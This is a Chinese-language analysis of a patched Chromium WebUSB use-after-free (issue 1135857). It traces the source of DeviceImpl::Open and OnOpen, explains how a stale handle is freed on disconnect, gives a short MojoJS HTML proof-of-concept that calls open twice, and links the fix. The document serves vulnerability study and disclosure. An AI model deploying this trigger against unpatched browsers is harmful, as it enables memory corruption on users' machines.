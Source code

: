 https://bugs.chromium.org/p/chromium/issues/detail?id=1135857
### 分析

先简单跟踪一遍UsbDevice接口中open的流程：
它在DeviceImpl::Open中被调用
``` c++
void DeviceImpl::Open(OpenCallback callback) {
  if (device_handle_) {
    std::move(callback).Run(mojom::UsbOpenDeviceError::ALREADY_OPEN);
    return;
  }

  if (!device_->permission_granted()) {
    device_->RequestPermission(
        base::BindOnce(&DeviceImpl::OnPermissionGrantedForOpen,
                       weak_factory_.GetWeakPtr(), std::move(callback)));
    return;
  }

  device_->Open(base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));
}


const scoped_refptr<device::UsbDevice> device_;
```

```
base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));

using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```
DeviceImpl::OnOpen作为OpenCallback callback传入UsbDeviceImpl::Open，可以看到OpenCallback的定义，这里表示他在被回调时需要通过run去提供一个scoped_refptr<UsbDeviceHandle>，所以这里在base::BindOnce将其其余参数做了绑定。

```c++
void UsbDeviceImpl::Open(OpenCallback callback) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<base::SequencedTaskRunner> blocking_task_runner =
      UsbService::CreateBlockingTaskRunner();
  blocking_task_runner->PostTask(
      FROM_HERE,
      base::BindOnce(&UsbDeviceImpl::OpenOnBlockingThread, this,
                     std::move(callback), base::ThreadTaskRunnerHandle::Get(),
                     blocking_task_runner));
}
```
接着就是通过PostTask来创建任务，这两个函数都不是重点，我们重点看后面的函数。
```c++
void UsbDeviceImpl::OpenOnBlockingThread(
    OpenCallback callback,
    scoped_refptr<base::TaskRunner> task_runner,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  base::ScopedBlockingCall scoped_blocking_call(FROM_HERE,
                                                base::BlockingType::MAY_BLOCK);
  libusb_device_handle* handle = nullptr;
  const int rv = libusb_open(platform_device(), &handle);
  if (LIBUSB_SUCCESS == rv) {
    ScopedLibusbDeviceHandle scoped_handle(handle,
                                           platform_device_.GetContext());
    task_runner->PostTask(
        FROM_HERE,
        base::BindOnce(&UsbDeviceImpl::Opened, this, std::move(scoped_handle),
                       std::move(callback), blocking_task_runner));
  } else {
    USB_LOG(EVENT) << "Failed to open device: "
                   << ConvertPlatformUsbErrorToString(rv);
    task_runner->PostTask(FROM_HERE,
                          base::BindOnce(std::move(callback), nullptr));
  }
}
```

可以看到在UsbDeviceImpl::Opened中，他创建了一个新的device_handle，并传入了handles。
```c++
void UsbDeviceImpl::Opened(
    ScopedLibusbDeviceHandle platform_handle,
    OpenCallback callback,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<UsbDeviceHandle> device_handle = new UsbDeviceHandleImpl(
      this, std::move(platform_handle), blocking_task_runner);
  handles().push_back(device_handle.get());
  std::move(callback).Run(device_handle);
}


using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```

回调DeviceImpl::OnOpen，在这个函数中有一个很重要的内容：self->device_handle_ = std::move(handle); 这里存在一个问题，如果频繁调用DeviceImpl::OnOpen，就会导致旧的device_handle_被析构，但是他并没清除handles中push的device_handle。
```c++
void DeviceImpl::OnOpen(base::WeakPtr<DeviceImpl> self,
                        OpenCallback callback,
                        scoped_refptr<UsbDeviceHandle> handle) {
  if (!self) {
    if (handle)
      handle->Close();
    return;
  }

  self->device_handle_ = std::move(handle);
  if (self->device_handle_ && self->client_)
    self->client_->OnDeviceOpened();

  std::move(callback).Run(self->device_handle_
                              ? mojom::UsbOpenDeviceError::OK
                              : mojom::UsbOpenDeviceError::ACCESS_DENIED);
}
```

当设备被拔出或移除时，就会调用下面的函数，这时handle->Close();就会触发uaf。
```
void UsbDevice::OnDisconnect() {
  // Swap out the handle list as HandleClosed() will try to modify it.
  std::list<UsbDeviceHandle*> handles;
  handles.swap(handles_);
  for (auto* handle : handles)
    handle->Close();
}
```


poc：

```
<html>
<head>
  <script src="./mojo_bindings.js"></script>
  <script src="./third_party/blink/public/mojom/usb/web_usb_service.mojom.js"></script>
<script>
   var wus_ptr = new blink.mojom.WebUsbServicePtr();
   Mojo.bindInterface(blink.mojom.WebUsbService.name,mojo.makeRequest(wus_ptr).handle);
   var ud_ptr = new device.mojom.UsbDevicePtr();

   wus_ptr.getPermission([]).then(result =>{
       wus_ptr.getDevices().then(result =>{
           wus_ptr.getDevice(result.results[0].guid, mojo.makeRequest(ud_ptr));
           ud_ptr.open();
           ud_ptr.open();
       });
   });
</script>
</head>
</html>
```

补丁：

https://chromium-review.googlesource.com/c/chromium/src/+/2454846

![](./img/1.png)

这里增加了opening_这一check，避免了open之后重复多次open。

